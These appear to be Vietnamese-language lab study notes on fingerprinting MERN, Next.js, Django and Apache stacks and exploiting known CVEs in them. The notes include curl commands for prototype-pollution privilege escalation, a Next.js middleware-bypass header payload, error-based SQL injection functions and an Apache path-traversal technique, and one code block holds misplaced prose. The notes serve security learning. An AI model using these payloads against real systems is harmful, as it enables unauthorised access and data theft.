




# Modern Web Stacks
## 1. Introduction
Trong 1 bài kiểm thử, các web đều leak ra những thông tin như Header, cookies name, error message, URL structure, HTML source - những thứ mà chỉ định web đang chạy\
Một khi đã biết đưuọc công nghệ và phiên bản của nó, ta có thể tìm được những bề mặt tấn công

- Có 3 bước được áp dụng trong tất cả các nhiệm vụ:
    - Tìm kiếm công nghệ từ tín hiệu HTTP response
    - Xác định phiên bản và các CVE có thể áp dụng
    - Thự thi chuỗi khai thác và hiểu vẫn đề gốc rễ

- Trong bài này ta sẽ học:   
    - Nhận dạng 1 công nghệ web thông qua HTTP signals mà không cần gửi payload
    - Khai thác CVE-2025-29927 để bypass Next.js xác thực qua phần mềm trung gian
    - Khai thác CVE-2021-35042 để lấy dữ liệu DB từ Django 
    - Exploit CVE-2021-41773 đọc file tùy ý và thực thi các câu lệnh hệ thông từ mod_cgo trên Apache 2.4.49

## 2. MERN Stack
- MERN: MongoDB, Express.js, React, Node.js
- Đây là lựa chọn phổ biến cho các công ty (shops) chỉ muốn dùng JavaScript cho cả frontend lẫn backend (full stack)

--- 
### Stack Entity
- Trên Ubuntu, Express lắng nghe trên port 3000 hoặc 5000
- MongoDB lắng nghe trên 27017
- Và thông thường, Express sẽ được ẩn đằng sau re-proxy, nhưng trong cấu hình sai, Express trực tiếp tiếp xúc với bên ngoài

---
### Fingerprinter the MERN
- 1 web sử dụng Express thường trả về header: `X-Powered-By: Express`; nhưng đôi khi nó có thể bị tắt bởi `app.disable("x-powered-by");`
- Nếu web có kiến trúc 
`Client → Cloudflare/Nginx/Vercel → Express`
--> Có thể re-proxy ở giữa đã tự động xóa header

- connect.sid cũng thường được sử dụng trên web chạy bằng Express
    - saveUninitialized: true --> Chưa đăng nhập cũng có connect.sid
    - saveUninitialized: false --> Đăng nhập rồi mới có connect.sid

- Unhandled-route format là cách Express phản hồi khi truy cập một đường dẫn không tồn tại
VD: http://target.com/abcdef

`Cannot GET /abcdef`

`Cannot POST /abcdef`

---
### Exploiting MERN
- Sau khi đã xác nhận rằng Express chạy trên 3000 với connect.sid, bước tiếp theo sẽ là liệt kê API surface
- Trong task này sẽ có 2 API quan trọng: /api/user/update (Dùng để lấy cookie và ghi đè) và /api/admin/flag (Lấy flag nhưng cần quyền admin)

- Lấy cookie vào 1 file cookie.txt
```bash
curl -c C:\Users\NGOCNV_1209\Downloads\cookie.txt http://10.49.164.53:3000/
```

- Update bằng cookie đã thu thập
```bash
curl -b cookies.txt -X POST http://10.49.164.53:3000/api/user/update -H "Content-Type: application/json" -d '{"name": "Alice", "email":"alice@example.com"}'
```



- Chèn Object.prototype
```bash
curl -b cookies.txt -X POST http://10.49.164.53:3000/api/user/update -H "Content-Type: application/json" -d '{"__proto__": {"isAdmin": true}}'
```



- Khi này ta đã có quyền truy cập admin

```bash
curl -b cookies.txt http://10.49.164.53:3000/api/admin/flag
```




## 3. React/Next.js

- Next.js là framework React phổ biến nhất để xây dựng các website chạy thật
- Nếu đi pentest website hiện nay, xác suất gặp Next.js là rất cao.
 ---
### Cách chạy Next.js trên Ubuntu
- Next.js chạy như một tiến trình Node.js, thường được khởi động bằng:
```bash
thường được khởi động bằng
```

và chạy dưới user `node` hoặc `www-data`

--- 
### App Router
- App Router (ra mắt từ Next.js 13) cho phép sử dụng React Server Components và chính điều này khiến CVE-2025-29927 và CVE-2025-55182 tồn tại
- Hai CVE này chỉ ảnh hưởng khi website chạy ở 
```bash
npm run build
npm start
```
- Không bị ảnh hưởng bởi 
```bash
next dev
```

- Bởi vì `next dev` dùng để lập trình, nó có debug, hot reload, không tối ưu
- Còn trong `npm run build` `npm start` có tối ưu, React Server Components, Flight Protocol đầy đủ thì CVE mới xuất hiện

--- 

| Dấu hiệu | Kiểm tra | Ý nghĩa | Độ tin cậy |
|----------|----------|----------|------------|
| `X-Powered-By: Next.js` | HTTP Response Header | Website sử dụng Next.js | ⭐⭐⭐ Cao |
| `window.__next_f` | View Source / DevTools | **Khẳng định** đang dùng **App Router + React Server Components (RSC)** | ⭐⭐⭐⭐⭐ Rất cao |
| `/_next/static/chunks/` | HTML Source / Network | Static assets mặc định của Next.js | ⭐⭐⭐ Cao |
| `x-middleware-next` / `x-middleware-rewrite` | HTTP Response Header | Request đi qua `middleware.js` | ⭐⭐ Trung bình |
| `HTTP 307 → /login` | Truy cập route cần xác thực | Route được middleware hoặc cơ chế xác thực bảo vệ | ⭐⭐ Trung bình |

### Ghi nhớ

- `X-Powered-By: Next.js` → Nhận diện Next.js.
- `window.__next_f` → Dấu hiệu mạnh nhất, xác nhận **App Router**.
- `/_next/static/chunks/` → Thư mục static mặc định sau khi build.
- `x-middleware-*` → Ứng dụng đang sử dụng Middleware.
- `307 → /login` → Route yêu cầu đăng nhập hoặc quyền truy cập.

> **Ưu tiên khi fingerprint:**
>
> 1. `X-Powered-By`
> 2. `window.__next_f`
> 3. `/_next/static/chunks/`
> 4. `x-middleware-*`
> 5. `307 Redirect`

--- 
### CVE-2025-29927: Middleware Bypass

### Nguyên nhân

- Next.js có header nội bộ:
  - `x-middleware-subrequest`
- Header này dùng để tránh middleware chạy lặp vô hạn.
- Next.js **không kiểm tra nguồn gốc** của header.\
--> **Không kiểm tra quyền thực thi chứ không phải đánh cắp quyền**

#### Luồng bình thường

```
Request
    │
    ▼
Middleware
    │
Kiểm tra session/login
    │
    ▼
Dashboard
```

#### Luồng khai thác

```
Request
+
x-middleware-subrequest
        │
        ▼
Middleware bị bỏ qua
        │
        ▼
Dashboard
```

#### Payload

Root project:

```http
x-middleware-subrequest:
middleware:middleware:middleware:middleware:middleware
```

Nếu middleware nằm trong `src/`:

```http
x-middleware-subrequest:
src/middleware:src/middleware:src/middleware:src/middleware:src/middleware
```

> Chú ys: 5 lần không phải quy luật chung mà là giá trị mà phiên bản Next.js dễ bị tổn thương đang mong đợi



#### Ảnh hưởng

- Bypass Authentication
- Không cần:
  - Password
  - Session
  - Brute Force
- CVSS: **9.1 (Critical)**

--- 
### CVE-2025-55182: Practise in a Dedicated Room
### CVE-2025-55182 - React2Shell (RCE)

#### Bản chất

- Lỗ hổng **Remote Code Execution (RCE)**.
- Nguyên nhân: **Insecure Deserialization** trong **RSC Flight Protocol Parser**.
- **Không cần xác thực** (Unauthenticated).

#### Ảnh hưởng

- Next.js **14** (>= 14.3.0-canary.77).
- Next.js **15.x** (< 15.2.3).
- Khi sử dụng **React 19**.

#### Mức độ

- **CVSS: 10.0 (Critical)**.

#### Hậu quả

- Thực thi lệnh từ xa trên server.
- Có thể:
  - `whoami`
  - `id`
  - Đánh cắp credential.
  - Cài Cobalt Strike hoặc web shell.

#### Vị trí lỗ hổng

```
Browser
    │
Flight Payload
    │
    ▼
Flight Protocol Parser   ← Lỗ hổng
    │
    ▼
React Server Components
```

#### Ghi nhớ

- **CVE-2025-29927** → Middleware Bypass (Bypass Authentication).
- **CVE-2025-55182** → Flight Protocol Parser (RCE).
- Chi tiết khai thác nằm trong room **React2Shell**.


## 4. Django
- Framework web của **Python**.
- Thường chạy trên:
  - Django Development Server
  - Gunicorn
  - uWSGI
- Port mặc định (dev): **8000**
- Trang quản trị mặc định: `/admin/`

---

### ORM
- ORM (Object Relational Mapping) giúp thao tác DB bằng Python thay vì SQL.
- Giảm nguy cơ **SQL Injection**.
- SQLi vẫn có thể xảy ra nếu:
  - Developer nối trực tiếp input vào SQL.
  - Framework/ORM có lỗ hổng (ví dụ **CVE-2021-35042**).

---

### Fingerprint Django

| Dấu hiệu | Giá trị |
|----------|---------|
| Server | `WSGIServer/0.2 CPython/...` |
| Cookie | `csrftoken` |
| Hidden field | `csrfmiddlewaretoken` ⭐ |
| Admin | `/admin/` |
| X-Frame-Options | `DENY` |
| X-Content-Type-Options | `nosniff` |
| Referrer-Policy | `same-origin` |

> `csrfmiddlewaretoken` là fingerprint đáng tin cậy nhất.

---

### Injection Point

Ví dụ:

```python
order = request.GET.get("order")
```

Nếu:

```python
Product.objects.order_by(order)
```

hoặc nối trực tiếp vào SQL mà không kiểm tra input ⇒ có thể dẫn đến **SQL Injection**.

---

### CVE-2021-35042

- Loại: **SQL Injection**
- Vị trí: `order_by()`
- CVSS: **9.8 (Critical)**
- Không cần Authentication.
- Ảnh hưởng các phiên bản Django bị lỗi.

---

### Error-based SQLi

Hàm thường bị lợi dụng:

```sql
updatexml()
```

Ý tưởng:
- Gây lỗi XPath.
- Đưa kết quả truy vấn vào thông báo lỗi.
- Đọc dữ liệu từ trang lỗi.

---

### Một số hàm MySQL

```sql
@@version
```

→ Phiên bản MySQL.

```sql
database()
```

→ Tên database hiện tại.

```sql
concat()
```

→ Ghép chuỗi.

```sql
0x7e
```

→ Ký tự `~` (delimiter).

---

### DEBUG

```python
DEBUG = True
```

- Hiện stack trace.
- Hiện Django Version.
- Hiện lỗi SQL → Error-based SQLi dễ khai thác.

```python
DEBUG = False
```

- Chỉ trả về lỗi 500 chung.
- Thường phải dùng Blind SQLi.

---

### Cần nhớ

- `csrfmiddlewaretoken` ⇒ Django.
- `/admin/` ⇒ dấu hiệu mạnh của Django.
- `order` ⇒ Injection Point.
- `@@version` ⇒ phiên bản MySQL.
- `database()` ⇒ tên DB.
- `updatexml()` ⇒ Error-based SQLi.
- `DEBUG=True` ⇒ lộ thông tin lỗi.

## 5. LAMP
- LAMP là 1 kiến trúc web bao gồm:
    - **Linux**: Hệ điều hành.
    - **Apache**: Web Server, xử lý HTTP request.
    - **MySQL**: Quản lý cơ sở dữ liệu.
    - **PHP**: Xử lý logic phía server, tạo nội dung động
---
### Fingerprinting LAMP (Apache)

#### Mục tiêu

- Xác định Web Server.
- Xác định phiên bản Apache.
- Kiểm tra điều kiện để áp dụng CVE.

---

#### Fingerprint

| Signal | Ý nghĩa |
|---------|----------|
| `Server: Apache/2.4.49` | Xác định Apache và phiên bản |
| 404 Error Page | Có thể lộ phiên bản Apache |
| `/cgi-bin/` → `403 Forbidden` | `mod_cgi` đã bật |
| `/cgi-bin/` → `404 Not Found` | `mod_cgi` không tồn tại/chưa cấu hình |

---

### mod_cgi

- Module Apache dùng để chạy **CGI scripts**.
- Một số CVE (ví dụ **CVE-2021-41773**) yêu cầu `mod_cgi` được bật mới có thể khai thác.

---

### Quy trình

```text
Đọc Server Header
        │
        ▼
Apache + Version
        │
        ▼
Kiểm tra 404 Page
        │
        ▼
Kiểm tra /cgi-bin/
        │
        ├── 403 → mod_cgi bật
        └── 404 → mod_cgi không có
```

--- 
### CVE-2021-41773 Notes

#### Nguyên nhân

- Apache **2.4.49** thay đổi hàm `ap_normalize_path()`.
- Lỗi ở **thứ tự URL decode** (decode order).
- Bộ lọc kiểm tra trước khi URL được giải mã hoàn toàn.

---

#### Path Traversal

- `../` → bị Apache chặn.
- `.%2e/` → sau khi decode thành `../`.
- Bộ lọc chỉ thấy `.%2e/` nên bị bypass.

---

#### mod_cgi

- `/cgi-bin/` có bật **CGI execution**.
- Nếu traversal trỏ tới file thực thi (ví dụ `/bin/sh`), Apache sẽ chạy như CGI.
- HTTP **POST body** được truyền vào **stdin** của chương trình.

---

#### `--path-as-is`

- Mặc định **curl** tự chuẩn hóa URL.
- `--path-as-is` → gửi URL **nguyên trạng**.
- Thiếu `--path-as-is` → curl tự xử lý `.%2e/`, server không nhận được payload gốc.

---

#### Cần nhớ

- `ap_normalize_path()` → Hàm chuẩn hóa đường dẫn.
- `.%2e/` → Decode thành `../`.
- Lỗi nằm ở **decode order**.
- `mod_cgi` là điều kiện quan trọng của CVE.
- `/cgi-bin/` → CGI execution.
- `--path-as-is` → Bắt buộc để curl không tự normalize URL.
```

